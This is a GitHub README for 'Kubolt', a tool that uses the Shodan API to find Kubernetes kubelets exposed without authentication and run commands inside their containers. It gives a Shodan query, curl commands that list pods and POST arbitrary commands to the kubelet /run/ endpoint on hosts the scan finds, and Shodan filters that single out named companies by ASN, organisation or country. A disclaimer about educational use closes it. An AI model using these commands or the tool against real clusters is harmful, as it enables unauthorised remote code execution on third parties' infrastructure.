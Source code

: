 # Wat?
**Kubolt** is simple utility for scanning public unauthinticated kubernetes clusters and run commands inside containers

# Why?
Sometimes, the kubelet port 10250 is open to unauthorized access and makes it possible to run commands inside the containers using getrun function from [kubelet](https://github.com/kubernetes/kubernetes/blob/master/pkg/kubelet/server/server.go):
```go
// getRun handles requests to run a command inside a container.
func (s *Server) getRun(request *restful.Request, response *restful.Response) {
	params := getExecRequestParams(request)
	pod, ok := s.host.GetPodByName(params.podNamespace, params.podName)
	if !ok {
		response.WriteError(http.StatusNotFound, fmt.Errorf("pod does not exist"))
		return
	}
```

# How?
Okay, let's ask our friend Shodan :trollface:
The basic query is 
>ssl:true port:10250 404 

**Kubelet** uses port 10250 with SSL by default, 404 is the HTTP response without URL path. 

**Kubolt** ask Shodan by API for list of IP addresses and keep them for other OSINT actions :grin:

First, let's ask Kubelet for running pods and filter hosts where response doesn't contain `Unauthorized` and contain `container` so we could run command inside it. 
```bash
curl -k https://IP-from-Shodan:10250/runningpods/ 
```
Anyway, if you find the host without any running pods at the time, keep it for next time when pods might be started :grin: 

You can list all the available pods from these requests:
```bash
curl -k https://IP-from-Shodan:10250/pods/
#or
curl http://IP-from-Shodan:10255/pods/ 
```

Next **kubolt** parse response and generate a new request as below:
```bash
curl -XPOST -k https://IP-from-Shodan:10250/run/<namespace>/<PodName>/<containerName> -d "cmd=<command-to-run>" 
```
You can target companies more accurate using Shodan filters such as:
- asn
- org
- country
- net

# Install 
```bash
mkdir output
pip install -r requirements.txt 
```

# Run
```python3
python kubolt.py --query "asn:123123 org:'ACME Corporation'"
#or
python kubolt.py --query "org:'ACME Corporation' country:UK"
```

# Shodan 
**Kubolt** uses Shodan API and [Query Credits](https://help.shodan.io/the-basics/credit-types-explained) accordingly, if you run the tool without query filters then you will probably fire all your credits `¯\_(ツ)_/¯`  

# Demo
![demo](/github-scale.gif)

# Important
The Tool provided by the author should only be used for educational purposes. The author can not be held responsible for the misuse of the Tool. The author is not responsible for any direct or indirect damage caused due to the usage of the Tool.


